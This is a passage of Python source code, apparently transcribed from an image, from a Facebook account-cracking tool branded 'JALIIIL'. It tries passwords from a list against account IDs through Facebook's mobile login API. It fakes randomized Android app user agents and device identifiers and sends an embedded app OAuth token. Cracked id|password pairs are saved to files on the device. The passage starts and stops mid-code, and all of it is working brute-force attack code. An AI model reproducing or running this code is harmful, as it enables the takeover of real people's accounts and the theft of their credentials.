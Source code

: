                                         open('/sdcard/BHT-OK.txt','a').write(ids+'|'+pas+'\n')
                                        oks.append(ids)
                                        break
                                elif 'www.facebook.com' in q['error']['message']:
                                        if 'y' in pcp:
                                                print('\r\r\x1b[38;5;208m [JALIIIL-CP] '+ids+' | '+pas+'\033[1;97m')
                                                open('/sdcard/JALIIIL-CP.txt', 'a').write(ids+'|'+pas+'\n')
                                                cps.append(ids)
                                                break
                                        else:
                                                open('/sdcard/JALIIIL-CP.txt','a').write(ids+'|'+pas+'\n')
                                                break
                                else:
                                        continue
                        loop+=1
                except requests.exceptions.ConnectionError:
                        time.sleep(10)
                except Exception as e:
                        pass
def rndm(ids,passlist):
                try:
                        global ok,loop
                        sys.stdout.write('\r\r\033[1;37m [JALIIIL-XD] %s|\033[1;32mOK:-%s \033[1;37m'%(loop,len(oks)));sys.stdout.flush()
                        for pas in passlist:
                                application_version = str(random.randint(111,555))+'.0.0.'+str(random.randrange(9,49))+str(random.randint(111,555))
                                application_version_code=str(random.randint(000000000,999999999))
                                fbs=random.choice(fbks)
                                gtt=random.choice(xxxxx)
                                gttt=random.choice(xxxxx)
                                android_version=str(random.randrange(6,13))
                                ua_string = f'Davik/2.1.0 (Linux; U; Android {str(android_version)}.0.0; {str(gtt)} Build/{str(gttt)} [FBAN/FB4A;FBAV/{str(application_version)};FBBV/{str(application_version_code)};FBDM/'+'{density=2.0,width=720,height=1280};'+f'FBLC/en_US;FBRV/{str(application_version_code)};FBCR/Movistar;FBMF/samsung;FBBD/samsung;FBPN/{str(fbs)};FBDV/{str(gtt)};FBSV/7.0;FBOP/1;FBCA/armeabi-v7a:armeabi;]'
                                device_id = str(uuid.uuid4())
                                adid = str(uuid.uuid4())
                                data = {'adid':adid,
                                        'email':ids,
                                        'password':pas,
                                        'cpl':'true',
                                        'credentials_type':'device_based_login_password',
                                        "source": "device_based_login",
                                        'error_detail_type':'button_with_disabled',
                                        'source':'login','format':'json',
                                        'generate_session_cookies':'1',
                                        'generate_analytics_claim':'1',
                                        'generate_machine_id':'1',
                                        "locale":"en_US","client_country_code":"US",
                                        'device':gtt,
                                        'device_id':adid,
                                        "method": "auth.login",
                                        "fb_api_req_friendly_name": "authenticate",
                                        "fb_api_caller_class": "com.facebook.account.login.protocol.Fb4aAuthHandler"}
                                head = {
                                        'content-type':'application/x-www-form-urlencoded',
                                        'x-fb-sim-hni':str(random.randint(2e4,4e4)),
                                        'x-fb-connection-type':'unknown',
                                        'Authorization':'OAuth 350685531728|62f8ce9f74b12f84c123cc23437a4a32',
                                        'user-agent':ua_string,
                                        'x-fb-net-hni':str(random.randint(2e4,4e4)),
                                        'x-fb-connection-bandwidth':str(random.randint(2e7,3e7)),
                                        'x-fb-connection-quality':'EXCELLENT',